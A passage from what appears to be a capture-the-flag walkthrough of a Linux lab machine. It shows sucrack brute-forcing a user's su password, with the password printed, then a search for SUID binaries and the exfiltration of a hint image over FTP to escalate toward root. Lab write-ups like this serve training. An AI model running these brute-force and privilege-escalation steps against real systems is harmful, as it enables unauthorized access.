 When I accessed it, listing from www-data I realized I could brute force it with sudo so I used sucrack

# hakanbey Access

```sh
www-data@ubuntu:/tmp/$ ./sucrack -w 128 -u hakanbey newlist.txt
<k/usr/bin$ ./sucrack -w 128 -u hakanbey newlist.txt
password is: 123adanasubaru

www-data@ubuntu:/tmp/$ su hakanbey
Password: 123adanasubaru
```

# Privilege escalation

```sh
find  / -type f -perm -u=s 2>/dev/null
```

we get:  /usr/bin/binary

Doing strings on the binary, we get the following interesting information.

```sh
I think you should enter the correct string here ==>
/root/hint.txt
Hint! : %s
/root/root.jpg
Unable to open source!
/home/hakanbey/root.jpg
Copy /root/root.jpg ==> /home/hakanbey/root.jpg
Unable to copy!
```

Aha, looks like something is revealed, we should try that:

```sh
hakanbey@ubuntu:/tmp$ /usr/bin/binary
I think you should enter the correct string here ==><HIDDEN>
Hint! : Hexeditor 00000020 ==> ???? ==> /home/hakanbey/Desktop/root.jpg (CyberChef)
Copy /root/root.jpg ==> /home/hakanbey/root.jpg
```

We have another jpg, with instructions to look at it with a hexeditor, then something to do with CyberChef. First we get the file on to machine

```sh
hakanbey@ubuntu:/tmp$ cp /home/hakanbey/root.jpg /var/www/subdomain/
```

Get the file:

```sh
ftp> get root.jpg
local: root.jpg remote: root.jpg
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for root.jpg (45835 bytes).
226 Transfer complete.
45835 bytes received in 0.06 secs (811.5152 kB/s)
```
